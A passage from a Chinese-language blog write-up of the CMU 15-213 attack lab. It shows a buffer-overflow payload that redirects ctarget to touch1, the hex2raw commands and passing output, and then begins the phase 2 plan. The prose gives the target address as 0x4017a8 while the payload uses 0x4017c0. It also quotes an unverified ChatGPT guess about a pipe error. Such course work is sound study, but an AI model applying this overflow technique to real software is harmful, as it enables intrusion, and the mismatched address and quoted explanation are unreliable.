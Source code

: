 可以看出getbuf开辟了0x28（hex） = 40（dec）字节空间，所以可以推断出只要写40个字节的数据，就可以覆盖getbuf开辟的栈空间，并且将41个字节保存touch1的地址（64位数据void*），即可实现level1的要求。

按照8个字节为一个单位，需要5个单位的覆盖值，并且加一个单位的0x4017a8返回地址。这里利用自带的HEX2RAW程序来执行。

exploit.txt文件内容：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

```bash
unix> ./hex2raw < exploit.txt > exploit-raw.txt
unix> ./ctarget -q -i exploit-raw.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

不知道为什么用：

```
unix> cat exploit.txt | ./hex2raw | ./ctarget
```

就会报错，这是为什么呢？chatgpt给的答案是：

> 第一种方法（`cat exploit.txt | ./hex2raw | ./ctarget`）出错的可能原因与输入的处理方式或程序处理输入重定向和管道的方式有关。通过将输入预先转换为原始格式（`exploit-raw.txt`），你可以避开与管道相关的潜在问题。

管道？算了，不是研究重点，先放一下，二周目再来。

## 5.11（delete）

### phase2

> Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,however, you must make it appear to touch2 as if you have passed your cookie as its argument.

任务描述：让`CTARGET `执行`touch2`而不是重新执行`test`，而且`touch2`的入参是自己的cookie。

思路：

- 劫持执行地址我熟悉，同level1，将test调用getbuf之前保存的返回地址，由getbuf的下一行指令地址改为touch2的初始地址。
- 入参，怎么才能让touch2的入参（`%rdi`）赋值为自己的cookie呢？

这里作者简单介绍了下大体实现思路：
